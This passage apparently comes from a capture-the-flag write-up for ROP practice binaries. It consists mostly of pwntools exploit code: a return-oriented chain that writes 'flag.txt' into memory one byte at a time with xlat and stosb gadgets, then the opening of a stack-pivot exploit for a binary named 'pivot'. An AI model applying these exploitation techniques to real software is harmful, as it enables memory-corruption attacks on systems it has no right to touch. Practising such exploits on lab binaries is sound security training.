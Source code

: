 ```python

# l
payload += p64(pop_rdx) + p64(off_len) + p64(0x4003f9 - 0x3ef2 - ord('f'))
payload += p64(xlat) + p64(stosb)

# a
payload += p64(pop_rdx) + p64(off_len) + p64(0x400418 - 0x3ef2 - ord('l'))
payload += p64(xlat) + p64(stosb)

# g
payload += p64(pop_rdx) + p64(off_len) + p64(0x4003cf - 0x3ef2 - ord('a'))
payload += p64(xlat) + p64(stosb)

# .
payload += p64(pop_rdx) + p64(off_len) + p64(0x400439 - 0x3ef2 - ord('g'))
payload += p64(xlat) + p64(stosb)

# t
payload += p64(pop_rdx) + p64(off_len) + p64(0x4003f1 - 0x3ef2 - ord('.'))
payload += p64(xlat) + p64(stosb)

# x
payload += p64(pop_rdx) + p64(off_len) + p64(0x4006c8 - 0x3ef2 - ord('t'))
payload += p64(xlat) + p64(stosb)

# t
payload += p64(pop_rdx) + p64(off_len) + p64(0x4003f1 - 0x3ef2 - ord('x'))
payload += p64(xlat) + p64(stosb)

# pop rdi
payload += p64(pop_rdi) + p64(bss)
payload += p64(plt)

raw_input()
sh.send(payload)

sh.interactive()

```

## pivot
EXP:
```python
from pwn import *

sh = process("./pivot")

offset = 0x0a81 - 0x96a
buf_address = 0
xchg_rax_rsp = 0x4009bd
pop_rax = 0x4009bb
useless = 0x400720
got_plt = 0x601040
mov_rax_rax = 0x4009c0
add_rax_rbp = 0x4009c4
jmp_rax = 0x4007c1

sh.recvuntil("pivot: ")
addr = sh.recvline()[:-1]

buf_address = int(addr, 16)
print("0x%x" % int(addr, 16))
```